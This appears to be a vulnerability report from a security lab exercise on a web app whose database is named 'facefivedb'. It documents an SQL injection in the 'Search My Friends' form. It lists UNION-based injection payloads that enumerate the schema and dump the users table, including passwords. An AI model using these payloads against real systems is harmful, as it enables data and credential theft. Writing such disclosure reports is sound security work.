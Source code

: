 # Vulnerability 2: SQL Injection in search my friends form allows to retrieve all the database data

- Vulnerability: SQL Injection
- Where: `search` in Search My Friends form
- Impact: Allows to retrieve all the database data

## Steps to reproduce

1. Register a new user (if you already have an user you can go to step 2)
2. Login as that user
3. Access `My Friends` menu
4. Insert payload:
    1. `' and 1=0 UNION SELECT table_name,2,table_schema,table_rows,5 FROM information_schema.tables -- ` to retrieve all the tables and their databases
    2. `' and 1=0 UNION SELECT table_name,2,table_schema,table_rows,5 FROM information_schema.tables WHERE table_schema='facefivedb' -- ` to retrieve all the tables of the facefivedb database
    3. `' and 1=0 UNION SELECT column_name,2,data_type,column_key,5 FROM information_schema.columns WHERE table_name='<table>' -- ` to retrieve all the columns of the table `<table>`
    4.
        1. `' and 1=0 UNION SELECT username1,2,username2,id,5 FROM Friends -- ` to retrieve all entries of the table Friends
        2. `' and 1=0 UNION SELECT username1,2,username2,id,5 FROM FriendsRequests -- ` to retrieve all entries of the table FriendsRequests
        3. `' and 1=0 UNION SELECT author,2,content,created_at,5 FROM Posts -- ` to retrieve all entries of the table Posts
        4. `' and 1=0 UNION SELECT username,2,password,about,5 FROM Users -- ` to retrieve all entries of the table Users

[(POC)](vuln2.py)
